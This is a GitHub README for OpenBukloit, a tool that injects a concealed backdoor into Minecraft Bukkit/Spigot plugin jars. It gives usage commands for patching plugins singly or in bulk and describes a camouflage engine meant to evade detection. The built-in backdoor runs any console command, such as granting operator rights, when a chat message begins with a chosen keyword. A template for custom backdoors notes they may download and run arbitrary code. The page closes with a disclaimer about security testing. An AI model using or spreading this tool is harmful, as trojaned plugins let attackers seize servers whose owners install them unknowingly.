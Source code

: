 <div align="center"><h1>OpenBukloit - Minecraft plugin backdoor injector</h1></div>

<div align="center"><img alt="Logo" src="logo.png"/></div>

<div align="center">
    <img alt="Open issues" src="https://img.shields.io/github/issues-raw/Voxelhax/OpenBukloit"/>
    <img alt="Code size" src="https://img.shields.io/github/languages/code-size/Voxelhax/OpenBukloit"/>
    <a href="https://www.codefactor.io/repository/github/voxelhax/openbukloit"><img alt="CodeFactor" src="https://www.codefactor.io/repository/github/voxelhax/openbukloit/badge"/></a>
</div>

<div align="center">
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="Download" src="https://img.shields.io/badge/-DOWNLOAD_LATEST_RELEASE_(CLICK)-blue?style=for-the-badge"/></a>
</div>

<br>

<hr>

**OpenBukloit** is modern and powerful universal backdoor injector compatible with all Bukkit/Spigot/Paper/etc plugins. Its feature is ability to integrate with absolutely any plugin without the need to modify backdoor every time. Moreover, it provides powerful camouflage engine, which makes nearly impossible to find it without sufficient knowledge or advanced automated tools. OpenBukloit was developed to test the security systems of Minecraft servers, Voxelhax team is not responsible for its misuse.

This is a continuation of **[Bukloit](https://github.com/Rikonardo/Bukloit)** project, taking into account all the problems of the previous project and a completely different approach to development.

## OpenBukloit features
- **Full support for Bukkit and it's forks on any Minecraft version.**
- **Custom backdoor support.**
- **Automatic JDK downloading, so you don't need to care about Java version compatibility.**
- **Powerful camouflage engine, which makes it harder to find backdoor in plugin.**

## Installation
In order to use OpenBukloit you must have any Java version installed (but not lower than 8). Then download OpenBukloit jar from [releases tab](https://github.com/Voxelhax/OpenBukloit/releases/latest).

## Usage
To run OpenBukloit, open command prompt in the directory where OpenBukloit jar is located. Then type:

```sh
java -jar OpenBukloit.jar
```

Here you can pass some arguments to configure injector and backdoor:

| Short Argument | Long Argument | Description                                                                                                                                                                  | Type  |
|----------------|---------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------|
| -e             | --exploit     | Path to custom .java or compiled .class file, that will be used as backdoor.<br />**By default uses builtin backdoor.**                                                      |
| -m             | --mode        | Mode. Can be single/multiple.<br />**Default: <ins>multiple</ins>.**<br />In multiple mode, modifies all files in the specified folder. In single - only the specified file. | Value |
| -i             | --input       | Path to input folder/file (mode dependent).<br />**Default: <ins>in</ins> (<ins>in.jar</ins> if mode is single).**                                                           | Value |
| -o             | --output      | Path to output folder/file (mode dependent).<br />**Default: <ins>out</ins> (<ins>out.jar</ins> if mode is single).**                                                        | Value |
| -r             | --replace     | Replace output file if it already exists.                                                                                                                                    | Flag  |

But these arguments are not enough to run OpenBukloit. You must also specify backdoor params. Because OpenBukloit supports injecting of custom backdoors, you must pass additional arguments that required by used backdoor.

## Builtin exploit

By default, OpenBukloit injects builtin backdoor. It is a simple backdoor that allows you to execute any commands as console by writing special keyword before command in chat.

Builtin backdoor params:

| Long Argument | Description                                       |
|---------------|---------------------------------------------------|
| --key         | Keyword, that triggers console command execution. |

Ingame usage for key set to "hackthisserver":

```
hackthisserver op MyName
```

This message sent to chat will be executed as console command and give op to MyName player.

**Here is some examples of using OpenBukloit with builtin backdoor:**

1. Patch all .jar files with the "#console" key from the "in" folder and save them into the "out" folder without replacement.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "#console"
```

2. Patch all files with the "hacktheserver" key from the "in" folder and save them into the "out" folder with replacement.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "hacktheserver" -r
```

3. Patch single file "PluginName.jar" with "#console" key and save it as "Output.jar" file with replacement.

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r
```

## Writing custom exploit

You can also write your own backdoor. It should be a class with `public static void inject(JavaPlugin args)` method (JavaPlugin is from Bukkit API).

Here is a simple example:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, world!");
    }
}
```

`inject` method will be executed after plugin's `onEnable` method. You can do everything you want here, including downloading and running some arbitrary code from internet.

But you must know that there are some limitations:
- Currently, you can't use nested classes, there is must be only one class in exploit file.
- You shouldn't reference your exploit class inside it, like using it as method params, as a return value or as a field type.

You can take external params from command line, by using %placeholders%:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, %name%!");
    }
}
```

And then inject it with command:

```sh
java -jar OpenBukloit.jar -e MyBackdoor.java --name world
```

Note, that we can pass our backdoor to OpenBukloit without compiling, and it will automatically compile it with Spigot API in compiletime classpool.